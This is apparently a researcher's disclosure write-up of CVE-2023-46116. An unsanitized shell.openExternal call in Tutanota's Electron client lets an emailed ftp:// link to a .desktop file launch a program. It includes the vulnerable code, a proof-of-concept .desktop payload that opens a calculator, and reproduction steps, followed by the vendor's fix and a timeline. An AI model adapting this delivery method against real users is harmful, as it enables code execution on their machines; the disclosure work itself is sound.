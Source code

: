 ```yaml
---
title: "The Plight of Unsanitized Function Calls"
date: "2023-10-22T21:28:41+05:30"
author: "Prajyot Chemburkar"
cover:
    image: "images/cover.png" 
    alt: "some image that didn't load"
    caption: "(relevant xkcd - exploits of a mom)"
    relative: false
tags: ["Electron", "CVE", "RCE"]
keywords: ["electron", "code execution"]
description: "Been researching electron app security recently, decided to look at Tutanota."
showFullContent: true
readingTime: true
draft: false
---
```


# Introduction
*Tutanota is the world's most secure email service, easy to use and private by design. You get fully encrypted calendars and contacts with all our personal and business email accounts.* ~[The Tutanota Website](https://tutanota.com/)

# Debugging Setup
Tutanota fortunately is open source. So all you have to do is download the application source, spin up vscode or any IDE of your liking and read away. Or you can use [grep.app](https://grep.app) to look at its code, which is what I did in this case.

I particularly like using Ubuntu with the XFCE desktop environment, as it makes it simpler to demonstrate exploits, as we will see later.

# Methodology
My methodology for reviewing electron applications, at least when it comes to *electron specific* vulnerabilities, is quite simple: Use a bottom up approach. Grep for sinks and then trace the source.

# Stumbling Upon a Sink
One of the common functions that developers use in electron apps is `openExternal` from the `shell` module. This function opens URLs' using their default or native applications. As an example, if you pass a URL with the `https:` scheme, `shell.openExternal` will spawn your default browser to open it.

The problem with this is, if developers do not sanitize this function call, and pass it user-controlled URLs', then an attacker may make use of schemes like `file:`, `ftp:`, `smb:`, etc. to gain code execution on a victim's computer. There's a ton of URL schemes availble that can be used to abuse this "feature", more on that [here](https://positive.security/blog/url-open-rce).

I found this unsanitized call to `shell.openExternal` in Tutanota's source:

```js
private onNewWindow(details: HandlerDetails): { action: "deny" } {
    const parsedUrl = parseUrlOrNull(details.url)

    if (parsedUrl == null) {
        log.warn(TAG, "Could not parse url for new-window, will not open")
    } else if (parsedUrl.protocol === "file:") {
        // this also works for raw file paths without protocol
        log.warn(TAG, "prevented file url from being opened by shell")
    } else {
        // we never open any new windows directly from the renderer
        // except for links in mails etc. so open them in the browser
        this.electron.shell.openExternal(parsedUrl.toString()).catch((e) => {
            log.warn("failed to open external url", details.url, e)
            this.electron.dialog.showMessageBox({
                title: lang.get("showURL_alt"),
                buttons: [lang.get("ok_action")],
                defaultId: 0,
                message: lang.get("couldNotOpenLink_msg", { "{link}": details.url }),
                type: "error",
            })
        })
    }

    return {
        action: "deny",
    }
}
```

Looks like the devs are sort of aware of what `shell.openExternal` can do, hence the blocked `file:` scheme. But there are way too many other schemes that we can use to abuse this.

# Using FTP to gain RCE
Execute and authenticate to the Tutanota desktop version `3.118.8` AppImage on a Ubuntu Desktop with the XFCE environment.
![tuta-install](images/tuta-install.png)

On another machine, host an FTP server with anonymous access enabled. Create and place a `pwn.desktop` file in the FTP root, with the following content:
```sh
[Desktop Entry]
Exec=xcalc
Type=Application
```

Send an email to the email account logged in on tutanota containing a hyperlink pointing to the `pwn.desktop` file on the FTP server. Replace the corresponding values in the hyperlink: `ftp://username:password@ip-address/pwn.desktop`.
![tuta-send-mail](images/tuta-send-mail.png)

On the tutanota desktop application, click on the hyperlink in the email received. Observe that the calculator application opens. You may need to confirm execution of the application in some cases.
![tuta-rce](images/tuta-rce.png)

# The Fix Deployed
Tutanota decided to fix the issue by adding a warning/confirmation dialouge before opening any links that are not http/https. This seemed like a good fix to me, as:
- It is confirmed that the user actually wants to open said link.
- It does not affect the use of legitimate deeplinks.

# Timeline
- September 26th 2023, 7:20 AM UTC, Reported to Tutanota
- September 26th 2023, 9:33 AM UTC, Fixed by Tutanota
- October 20th 2023, CVE-2023-46116 assigned
- December 15th 2023, Report disclosed